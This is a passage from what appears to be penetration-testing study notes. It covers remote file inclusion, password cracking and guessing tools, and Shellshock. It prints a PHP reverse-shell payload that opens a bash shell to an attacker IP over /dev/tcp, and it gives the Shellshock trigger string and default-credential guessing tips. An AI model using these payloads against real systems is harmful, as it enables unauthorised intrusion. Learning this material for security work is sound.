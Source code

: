 This url calls a php file from the remote server, in this instance my attacking box, and executes the file locally to the target system. The %00 terminates the PHP.

The code inside of the file would look something like this:
```
<?php print shell_exec("/bin/bash -i >& /dev/tcp/192.168.1.101/443 0>&1");?>
```

It assigns a bash shell to a listener and then initiates a call to my local system on port 443. Running a netcat listener on 443 will accept the reverse shell and I will have a shell with the privileges of the user the web server is running as.

## Password Attacks
There are many forms of password attacks, hash cracking, password guessing, hash passing, it is important to understand how authentication systems operate to assist in circumventing or compromising them.

## Hash Cracking
There are several websites that have publicly available rainbow tables that will take a provided hash and compare. They can be very helpful in finding basic passwords quickly.

Two examples:<br />
[https://crackstation.net](https://crackstation.net)<br />
[https://hashkiller.co.uk](https://hashkiller.co.uk)

### Johnny or John the Ripper
Johnny is a password cracking program. It is a graphical version of John the Ripper. It can take a wordlist, hash it, then compare it against a list of hashes provided. It can take in files in /etc/passwd /etc/shadow format and identify which hash algorithm is in use. It is very powerful.

### Password Guessing
One of the quickest ways to compromise a system is to brute force a password. It is also important to try well known combinations, admin:admin, admin:password, and so on. It's also very helpful to find out what the default username and password is for an application to see if it has been changed or removed.

Brute force tools like Hydra are great for iterating through user and password lists against HTML, SSH, FTP, authentication to start. The command line can be tricky, especially with web authentication, but it is good to know how to use it.

### Custom Password Lists
Use Cewl and John the Ripper to create custom password lists from web sites and other input.

## Remote Code Execution
Remote code execution or RCE is when an attacker is able to run code on a remote system. It can be done through buffer overflow exploits, misconfigured web servers, badly coded applications, and is a very strong method of compromise when it exists.

### Shellshock or Bashbug
Shellshock takes advantage of an environment variable being passed from an application to the bash shell. Using a specific string to start the variable, () { :; }; , it stops being interpreted as a string and instead as a bash command. This allows the attacker to string along shell commands to be executed by the program.
